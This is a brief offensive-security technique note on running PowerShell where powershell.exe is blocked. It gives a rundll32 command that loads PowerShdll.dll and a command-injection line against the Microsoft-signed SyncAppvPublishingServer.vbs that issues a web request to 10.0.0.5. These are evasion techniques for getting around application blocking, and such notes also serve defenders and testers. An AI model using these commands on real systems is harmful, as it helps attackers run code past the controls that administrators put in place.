

# Powershell Without Powershell.exe

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

## PowerShdll

```text
rundll32.exe PowerShdll.dll,main
```



Note that the same could be achieved with a compiled .exe binary from the same project, but keep in mind that .exe is more likely to run into whitelisting issues.

## SyncAppvPublishingServer

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```text
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```


## References







